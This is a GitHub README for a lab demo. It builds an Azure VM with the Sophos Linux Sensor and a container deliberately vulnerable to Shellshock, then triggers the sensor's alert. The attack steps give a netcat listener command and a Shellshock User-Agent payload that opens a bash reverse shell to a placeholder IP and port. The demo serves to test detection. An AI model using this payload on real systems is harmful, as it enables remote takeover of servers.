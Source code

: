 # SophosLinuxSensor-Demo

## Author

* Github: [@spence-rat](https://github.com/spence-rat)
* LinkedIn: [@Spencer_Brown](https://www.linkedin.com/in/spencerbrowntx/)

## About
This repository seeks to build an image to Azure via Hashicorp Packer.
When a virtual machine is built off the image, it will already have the Sophos Linux Sensor running, as well as a docker container hosting
a http page vulnerable to shellshock RCE.

## Steps

Requirements:
You will need the deb packages for the Sophos Linux Sensor placed in files/SLS (Provided by your Sophos Representative). 

## Packer
1. Adjust variables for your environment in variables.json
2. Adjust Sophos Central ID in SLS-env.sh
3. packer build --var-file=variables.json ubuntu.json
 
## Azure
1. Create a Network Security Group in Azure via CLI: az network nsg create --resource-group NAME_OF_RESOURCE_GROUP --location REGION --name NAME
2. Allow port 8080: az network nsg rule create --resource-group vse_east_rg --nsg-name opendev_nsg --name allow8080 --protocol tcp --priority 100 --destination-port-range 8080
3. Create the VM: az vm create --resource-group RESOURCE_GROUP --name NAME_OF_VM --admin-username ADMIN_USERNAME --admin-password "ADMIN_PASSWD" --image SLS-ubuntu --vnet-name YOUR_VNET --subnet YOUR_SUBNET --public-ip-sku Basic  --nsg NAME_OF_NSG_FROM_STEP_ONE
4. Record Public IP of VM for next steps.

## In a machine with Burp Suite installed.
1. Set up a reverse listener (ex. nc -lvnp 1234)
2. Set up Burp Suite to intercept requests.
   How to article: https://www.linuxfordevices.com/tutorials/linux/burpsuite-with-firefox
3. Visit http://IPofVM:8080/victim.cgi
4. Adjust user-agent in request to:
   () { ignored;};/bin/bash -i >& /dev/tcp/YOURIPADDRESS/PORTNUMBER 0>&1
   Make sure that the vm in azure can reach your ip address and the port is accessible.
5. Return to your reverse listener - you now have an interactive shell.
6. Login to your Azure VM and type in journalctl -u sophoslinuxsensor
7. The stdout of the Sophos Linux Sensor shows us an alert for Suspicious Interactive Shell!

## Screenshots


![image](https://user-images.githubusercontent.com/82817752/181119596-5b8959e7-62be-4999-872c-a446242ab876.png)

![image](https://user-images.githubusercontent.com/82817752/181119651-42fe7813-1482-4976-aeca-22cfe262dff6.png)

![image](https://user-images.githubusercontent.com/82817752/181119681-eab5fc1c-5f72-49db-88b5-a467c6ba17e2.png)

## Show your support

Give a ⭐️ if this project helped you!

## References
https://github.com/SecurityWeekly/vulhub-lab/tree/master/bash/shellshock
